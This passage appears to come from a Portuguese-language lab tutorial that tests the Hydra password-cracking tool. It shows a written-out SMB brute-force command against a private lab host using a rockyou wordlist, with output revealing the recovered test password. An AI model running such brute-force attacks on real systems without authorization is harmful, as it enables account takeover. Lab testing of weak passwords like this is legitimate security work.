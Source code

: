 Para este teste foi adicionado como gerenciador do banco de dados, o usuário ``antonio`` com a senha ``iloveyou``. Ou seja, o ``antonio`` deste exemplo, não era necessariamente o mesmo usuário do sistema do arquivo ``/etc/shadow`` - o usuário do banco de dados pode ser diferente do usuário do sistema. Neste teste, o Hydra também conseguiu encontrar a senha correta (``iloveyou``). O tempo para realizar este teste foi de um pouco mais de 10 segundos.

#### Hydra SMB

O último teste realizado aqui, foi com o sistema de compartilhamentos de arquivos do Windows ([SMB](https://pt.wikipedia.org/wiki/Server_Message_Block)).

Para este, o Hydra v9.4 não conseguiu realizar testes de senhas no *host* que estava sendo utilizado nos testes anteriores, tal *host* utilizava um [Samba](https://www.samba.org/) na versão 4.15.13-Ubuntu e neste cenário o Hydra acusava que estava sendo utilizado o SMBv1 e ele não tinha suporte. Assim, foi utilizada outra distribuição Linux, com o Samba na versão 3.0.25b, neste novo sistema o resultado foi:

> Neste novo sistema foi adicionado o usuário ``antonio`` com a senha ``iloveyou``, tanto no sistema, quanto no Samba (``smbpasswd``).

```console
$ hydra -l antonio -P rockyou-menor.txt smb://192.168.56.10/
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-10 14:31:20
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 1166511 login tries (l:1/p:1166511), ~1166511 tries per task
[DATA] attacking smb://192.168.56.10:445/
[445][smb] host: 192.168.56.10   login: antonio   password: iloveyou
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-10 14:31:20

real	0m0.717s
user	0m0.129s
sys	0m0.016s
```
A senha foi obtida com sucesso e o tempo para isso foi menos de um segundo. Todavia neste caso temos que lembrar que o *host* de teste mudou e a análise deste tempo fica injusta.

Quanto ao problema ocorrido no com Hydra v9.4 no cenário de testes anterior, talvez outra versão do Hydra consiga realizar tal testes, mas isso não foi testado aqui.


Por fim, levando em consideração todos os testes de serviços realizados com o Hydra aqui, é possível observar que o Hydra exerce com maestria sua função de quebra de senhas em vários serviços de redes (não testamos todos aqui) e mesmo existindo situações que ele pode falhar ou apresentar problemas, é possível concluir que o Hydra é uma ferramenta altamente indicada para o auxilio na busca por senhas fracas em sistemas computacionais.

> **Observação 1**: nestes testes não tetamos exaurir as possibilidades para solucionar esses problemas apresentados pelo Hydra, pelos serviços de redes, ou por seus executores - não era esse o objetivo.
